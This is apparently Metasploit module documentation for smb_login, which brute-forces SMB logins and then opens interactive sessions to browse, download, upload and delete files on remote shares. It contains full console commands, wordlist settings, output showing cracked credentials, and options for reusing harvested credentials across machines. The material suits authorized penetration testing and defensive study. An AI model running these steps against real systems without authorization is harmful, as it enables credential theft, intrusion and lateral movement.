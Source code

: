 The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines.

## Vulnerable Application

To use smb_login, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in wordlists](https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists) to brute-force SMB:

```msf
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) >
```

If you have a database connected, you should also see this credential logged:

```msf
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login) >
```

## Obtaining a Session

When using the smb_login module, the CreateSession option can be used to obtain an interactive
session within the smb instance. Running with the following options:

```msf
msf6 auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
```

Should give you output containing:

```msf
[*] 172.14.2.164:445    - 172.14.2.164:445 - Starting SMB login bruteforce
[+] 172.14.2.164:445    - 172.14.2.164:445 - Success: 'windomain.local\username:password' Administrator
[*] SMB session 1 opened (172.16.158.1:62793 -> 172.14.2.164:445) at 2024-03-12 17:03:09 +0000
[*] 172.14.2.164:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...
```

Which you can interact with using `sessions -i <session id>` or `sessions -i -1` to interact with the most recently opened session.

```msf
msf6 auxiliary(scanner/smb/smb_login) > sessions -i -1
[*] Starting interaction with 1...

SMB (172.14.2.164) > shares
Shares
======

    #  Name    Type          comment
    -  ----    ----          -------
    0  ADMIN$  DISK|SPECIAL  Remote Admin
    1  C$      DISK|SPECIAL  Default share
    2  foo     DISK
    3  IPC$    IPC|SPECIAL   Remote IPC

SMB (172.14.2.164) > shares -i foo
[+] Successfully connected to foo
SMB (172.14.2.164\foo) > ls
ls
===
[truncated]
```

When interacting with a session, the help command can be useful:

```msf
SMB (172.14.2.164\foo) > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    exit          Terminate the SMB session
    help          Help menu
    irb           Open an interactive Ruby shell on the current session
    pry           Open the Pry debugger on the current session
    sessions      Quickly switch to another session


Shares Commands
===============

    Command       Description
    -------       -----------
    cat           Read the file at the given path
    cd            Change the current remote working directory
    delete        Delete a file
    dir           List all files in the current directory (alias for ls)
    download      Download a file
    ls            List all files in the current directory
    mkdir         Make a new directory
    pwd           Print the current remote working directory
    rmdir         Delete a directory
    shares        View the available shares and interact with one
    upload        Upload a file


Local File System Commands
==========================

    Command       Description
    -------       -----------
    getlwd        Print local working directory (alias for lpwd)
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    ldir          List local files (alias for lls)
    lls           List local files
    lmkdir        Create new directory on local machine
    lpwd          Print local working directory

This session also works with the following modules:

  auxiliary/admin/dcerpc/icpr_cert
  auxiliary/admin/dcerpc/samr_account
  auxiliary/admin/smb/delete_file
  auxiliary/admin/smb/download_file
  auxiliary/admin/smb/psexec_ntdsgrab
  auxiliary/admin/smb/upload_file
  auxiliary/gather/windows_secrets_dump
  auxiliary/scanner/smb/pipe_auditor
  auxiliary/scanner/smb/pipe_dcerpc_auditor
  auxiliary/scanner/smb/smb_enum_gpp
  auxiliary/scanner/smb/smb_enumshares
  auxiliary/scanner/smb/smb_enumusers
  auxiliary/scanner/smb/smb_enumusers_domain
  auxiliary/scanner/smb/smb_lookupsid
  exploit/windows/smb/psexec
```

## Credential Options

By default, the smb_login module only requires the RHOSTS option to run. But in reality, you will
also need to supply user names and passwords. The following options are available to support
different credential formats:

**The USER_FILE option**

If you happen to manage all the found user names in a separate file, then this option would be
suitable for that. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The SMBUser option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The SMBPass option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

Note: If an account has been successfully brute-forced, that account will not be tried again.

Additionally, if you wish to disable automatic detection of all-access systems, you can change the following option:

**The DETECT_ANY_AUTH option**

This option enables detection of systems accepting any authentication. A bogus login will be attempted.

```
set DETECT_ANY_AUTH false
```
